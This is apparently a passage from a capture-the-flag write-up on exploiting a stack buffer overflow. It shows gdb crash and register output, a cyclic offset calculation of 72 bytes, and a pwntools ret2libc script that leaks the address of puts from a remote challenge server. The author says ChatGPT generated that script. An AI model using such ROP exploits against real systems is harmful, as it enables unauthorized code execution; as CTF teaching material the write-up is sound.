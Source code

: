 Then we do this to identify how many bytes are needed to overwrite important registers.

The program crashed with a segmentation fault at:

```bash
Program received signal SIGSEGV, Segmentation fault.
0x0000000000401291 in vuln ()
```

Then we inspect the using `info registers`.

```bash
(gdb) info registers
rax            0x7ffffffdbd00    140737488346064
rbx            0x0               0
```

```bash
rbp            0x6161617261616171   0x6161617261616171
rsp            0x7fffffffdc18    0x7fffffffdc18
r8             0x0               0
r9             0x0               0
r10            0x7ffff7c06270    140737349968496
r11            0x246             582
r12            0x7fffffffdc38    140737488346424
r13            0x401292          4199058
r14            0x403e18          4210200
r15            0x7ffff7fdd040    140737354125376
rip            0x401291          0x401291 <vuln+53>
```

From this we know that rbp was overwritten, and `RIP` is located 8 bytes above `RBP` on the stack, we use the cyclic pattern to find the offset.

```bash
$ cyclic -l 0x6161617261616171

64
```

`OFFSET = 64 + 8 = 72 bytes`

Then, I gave all the collected information I have to **chatgpt** to create an exploit script.

```bash
from pwn import *

# Setup
context.binary = elf = ELF('./chall')
libc = ELF('./libc.so.6')
p = remote('34.133.69.112', 10007)

rop = ROP(elf)
pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
ret = rop.find_gadget(['ret'])[0]

# Stage 1: Leak puts
payload = flat(
    b'A' * 72,
    pop_rdi,
    elf.got['puts'],
    elf.plt['puts'],
    elf.symbols['main']
)
p.sendlineafter("Enter your input:", payload)

p.recvline()
leaked_puts = u64(p.recvline().strip().ljust(8, b'\x00'))
libc.address = leaked_puts - libc.symbols['puts']

```